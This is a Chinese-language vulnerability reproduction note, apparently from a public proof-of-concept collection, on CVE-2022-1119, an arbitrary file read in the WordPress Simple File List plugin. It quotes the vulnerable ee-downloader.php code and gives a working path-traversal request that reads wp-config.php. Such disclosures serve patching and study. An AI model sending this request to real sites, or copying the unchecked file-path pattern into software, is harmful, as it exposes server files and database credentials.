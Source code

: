 # 

# WordPress Simple File List ee-downloader.php 任意文件读取漏洞 CVE-2022-1119

## 漏洞描述

WordPress Simple File List插件 ee-downloader.php文件存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器中的任意文件

## 漏洞影响

```
WordPress Simple File List < 3.2.8
```

## 插件名

Simple File List

https://downloads.wordpress.org/plugin/simple-file-list.3.2.17.zip

## 漏洞复现

存在漏洞的文件为 `wp-content/plugins/simple-file-list/includes/ee-downloader.php`

![image-20220706134725779](./images/202207061347857.png)

```php
<?php // Simple File List - ee-downloader.php - rev 1.19 - mitchellbennis@gmail.com

// Force File to Download
// This script is accessed via javascript on ee-download.php 

$eeFile =  filter_var($_GET['eeFile'], FILTER_SANITIZE_STRING, FILTER_FLAG_ENCODE_LOW);

if(is_readable($eeFile)) {

    header('Pragma: public'); // required
    header('Expires: 0'); // no cache
    header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
    header('Last-Modified: '. gmdate ('D, d M Y H:i:s', filemtime ($eeFile)) .' GMT');
    header('Cache-Control: private',false);
    header('Content-Type: ' . mime_content_type($eeFile) );
    header('Content-Disposition: attachment; filename="'. basename($eeFile) .'"');
    // header('Content-Transfer-Encoding: binary');
    header('Content-Length: '. filesize($eeFile)); // provide file size
    header('Connection: close');
    readfile($eeFile); // Start the download

}
?>
```

直接传参获取文件信息, 验证POC

```
/wp-content/plugins/simple-file-list/includes/ee-downloader.php?eeFile=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/wp-config.php
```

![image-20220706134750574](./images/202207061347645.png)
